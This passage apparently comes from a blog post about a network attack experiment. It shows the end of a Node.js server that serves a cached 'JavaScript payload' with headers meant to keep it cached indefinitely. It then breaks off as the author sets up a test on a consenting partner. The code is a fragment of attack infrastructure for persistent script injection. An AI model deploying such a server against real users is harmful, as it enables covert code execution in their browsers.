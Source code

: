 ```
	// cache the JavaScript payload
	else if (repobj[request.url]){
		console.log("cache JS until the end of time");
		headers["Content-Type"] = "application/javascript";
		response.writeHead(200, headers);
		response.write(repobj[request.url]);
		response.end();
		return;
	}
});

// listen on port 80
server.listen(80);
```


## Let's test it out ... for real ... almost!
At this point I had already done some tests on my own but I wanted to try it in a more realistic environment. However, I can't just try it on anyone without their consent, so first I needed a victim that would willingly be part of this little experiment ... so I asked my girlfriend. The conversation went something like this:
